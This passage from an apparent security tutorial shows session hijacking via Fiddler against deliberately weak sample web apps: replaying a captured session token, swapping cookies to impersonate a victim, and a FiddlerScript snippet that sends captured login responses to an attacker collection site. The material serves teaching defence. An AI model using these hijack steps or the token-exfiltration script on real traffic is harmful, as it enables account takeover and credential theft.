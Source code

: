<img src="{{ site.github.url }}/rsillem/assets/security-mitm/fiddler-2.png" style="display: block; margin: auto;"/>

If you're already somewhat security-aware you may be thinking "This is rubbish - using the same cookie for session ID and (effectively) authentication status." Yes, but for now, it's kept simple.


Run the hijack by hand, using Fiddler
-----

In fact, you've already done the first part of the attack. Fiddler is an HTTP proxy, which is to say a (benign) man in the middle. It's reading the HTTP traffic between client and server. If it was not benign, it might be sending any session IDs it found to (e.g.) an API on the attacker's own site, where they might be decoded and logged. Either way, watch the victim's traffic and extract the session ID (JWT or cookie). In the Jade-Express-MySQL sample use a logged in session for the victim.

The exploits are now trivially simple:

In the MEAN stack sample, using Fiddler capture a valid response to a post to `/api/session`. Save it as a file and paste in the session ID, adjusting the content length to the right number as necessary. Now use the AutoResponder tab in Fiddler to have it send back this response rather than going to the server for an `/api/login` post. Put your attacker hat on, fire up a different browser and login, with no user name or password. You are now logged in as the victim. Post offensive messages at will, and turn the AutoResponder off when you're finished.

<img src="{{ site.github.url }}/rsillem/assets/security-mitm/fiddler-1.png" style="display: block; margin: auto;"/>

In the Jade-Express-MySQL sample, using the cookie editor extension in a different browser, replace the existing cookie with the one you extracted. You are now logged in as the victim. In fact you actually using the same session on the server in this sample - unlike the MEAN stack sample, where session state is stored in the browser. This means that if the attacker logs out, the victim is logged out too.

You may now be idly considering how to automate this process. But then you'd be writing malware, so don't. This is about how to defend your applications.

Use Fiddler to find unprotected session IDs
-----
We can do some basic filtering using Fiddler's Filters tab - for instance we can set a filter to flag (highlight) either requests which send the `X-Auth` header or any 200 status response received from `/api/login`, meaning the authentication process was successful.

Now put this together to customise Fiddler so it shows if any session ID tokens/cookies are sent over HTTP for either of the samples - you should now have a detailed understanding of exactly what you want to catch on each sample app. This will be the basis of our testing - you will just run the apps with Fiddler capturing HTTP requests and flagging the bad ones.

As a further exercise, we can use the Attacker\_site sample with some additional Fiddler rules. The attacker site is a very simple site which collects and displays on screen any data which is sent to its `/api/logs` endpoint as a query parameter on a GET request. The attacker sets this website up, then sits back and watches your secrets roll in. Let's set it up to intercept the session tokens as they are sent back from the server.

Using [FiddlerScript](http://docs.telerik.com/fiddler/KnowledgeBase/FiddlerScript/ModifyRequestOrResponse) for more details:

* Open the FiddlerRules files: Click Rules => Customized Rules... (or press Ctrl+R)
* Go to the method `static function OnBeforeResponse(oSession: Session)`  - or create one if needed
* Type the following to catch any authentication response:
```
    if (oSession.HostnameIs("10.10.10.10") && oSession.uriContains("/api/login") && oSession.responseCode == 200){
        var origin = oSession.url;
        var type = "[SESSION]";
        var value = System.Text.Encoding.UTF8.GetString(oSession.responseBodyBytes);
        var queryString = System.String.Format("origin={0}&type={1}&value={2}", origin, type, value);
        Handlers.HTTPGet("http://10.10.10.30/api/logs/add",queryString);
    }
```